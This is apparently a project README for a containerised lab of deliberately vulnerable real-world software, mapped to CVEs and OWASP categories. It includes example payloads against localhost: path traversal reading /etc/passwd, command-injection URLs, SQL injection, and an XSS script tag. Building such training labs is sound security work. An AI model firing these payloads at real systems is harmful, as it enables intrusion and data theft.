

# VulnHive 🐝



## The Problem

Setting up local instances of vulnerable software or complex hacking frameworks (like Metasploitable) is often frustrating, bloated, and clunky. Security researchers, penetration testers, and developers who simply want to test their automated tools or hone their skills are forced to manage a chaotic web of dependencies, configure multiple virtual machines, and risk exposing their host environments to actual threats. 

VulnHive was built to solve this. It provides a lightweight, modular, and containerised suite of *real-world* software with documented CVEs. No "toy" vulnerabilities: just actual unpatched code running in a highly observable, isolated environment.

## The Solution

VulnHive leverages Docker Compose to instantly spin up specific vulnerable nodes. It includes a custom-built, real-time SOC (Security Operations Centre) terminal dashboard that monitors the internal Docker network, parsing logs to highlight successful exploitation attempts as they happen.

## Security Features & Immutable Dangers

### Protective Measures
*   **Strict Local Binding:** All exposed services are explicitly bound to `127.0.0.1`. This ensures that even if your router has UPnP enabled or you are on a public Wi-Fi network, the vulnerable services cannot be accessed by external actors.
*   **Database Isolation:** The internal MariaDB database (used by the CMS nodes) is not exposed to the host machine at all. It exists purely within the internal Docker network.
*   **Containerised:** Exploits that result in Remote Code Execution (RCE) are restricted to the filesystem of the specific Docker container, providing a protective barrier for your host OS.

### Immutable Dangers
*   **Genuine Vulnerabilities:** This suite runs unpatched, backdoored, and deliberately vulnerable software. 
*   **Hardcoded Credentials:** To ensure the vulnerable applications function out-of-the-box, the internal database uses weak, hardcoded credentials (`root`:`root`). 
*   **Host Pivot Risk:** If a malicious actor gains access to your host machine, they could pivot into these containers. Never run VulnHive on a production server or expose its ports intentionally.

## OWASP Top 10 (2025) Mapping

The nodes within VulnHive map directly to critical vulnerabilities identified in modern web applications:

| VulnHive Node | Vulnerability Type | Real-World Software | OWASP Category |
| :--- | :--- | :--- | :--- |
| **LFI / RCE** | Path Traversal | Apache 2.4.49 (CVE-2021-41773) | A01:2021-Broken Access Control |
| **SQLi** | SQL Injection | Cuppa CMS v1.0 (CVE-2022-24265) | A03:2021-Injection |
| **XSS** | Cross-Site Scripting | WonderCMS 3.4.2 (CVE-2023-41425) | A03:2021-Injection |
| **RCE** | Command Injection | Atom CMS 2.0 (Searchsploit 50840)| A03:2021-Injection |
| **PHP Backdoor** | Supply Chain Attack| PHP 8.1.0-dev | A08:2021-Software and Data Integrity Failures |
| **SSRF** | Request Forgery | osTicket 1.14.2 (CVE-2020-24881) | A10:2021-Server-Side Request Forgery |
| **Auth Failure** | Pre-Auth RCE | Fuel CMS 1.4.1 (Searchsploit 47138)| A07:2021-Identification and Authentication Failures |
| **Insecure Design**| IDOR / Broken Access | Bus Pass Management 1.0 (Searchsploit 50263)| A04:2021-Insecure Design |
| **Security Misconfig**| Default Credentials | CMSimple 5.15 (Searchsploit 39271) | A05:2021-Security Misconfiguration |

## Installation & Usage

### Prerequisites
*   [Docker](https://docs.docker.com/get-docker/)
*   [Docker Compose](https://docs.docker.com/compose/install/)
*   `python3` (For the SOC Terminal)

### Quick Start

1.  **Clone and Start:**
    ```bash
    git clone https://github.com/yourusername/vulnhive.git
    cd vulnhive
    ./run.sh
    ```

2.  **Select Targets:**
    Follow the interactive menu to spin up the specific vulnerabilities you wish to test. You can spin up individual nodes or the entire hive.

3.  **Launch the SOC Terminal:**
    When prompted, type `y` to launch the Python-based SOC dashboard. This will automatically set up a virtual environment and start monitoring the live traffic feed.

### Exploit Examples

To verify your environment is working, you can try the following payloads against the running nodes:

*   **LFI (Apache):** `http://127.0.0.1:54321/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`
*   **RCE (Atom CMS):** `http://127.0.0.1:54322/index.php?cmd=id`
*   **SQLi (Cuppa CMS):** `http://127.0.0.1:54323/index.php?id=1'%20OR%201=1`
*   **XSS (WonderCMS):** `http://127.0.0.1:54324/?xss=<script>alert('VulnHive')</script>`
*   **PHP Backdoor:** `http://127.0.0.1:54325/?cmd=whoami`

## Roadmap

*   **Implement an SSRF Node:** Server-Side Request Forgery is a dominant vulnerability in cloud-native applications. We plan to introduce a node specifically vulnerable to SSRF to map to the latest OWASP trends.
*   **AI/LLM Prompt Injection Node:** As AI integration becomes ubiquitous, a node specifically designed to test prompt injection and logic bypasses will be added to the hive.
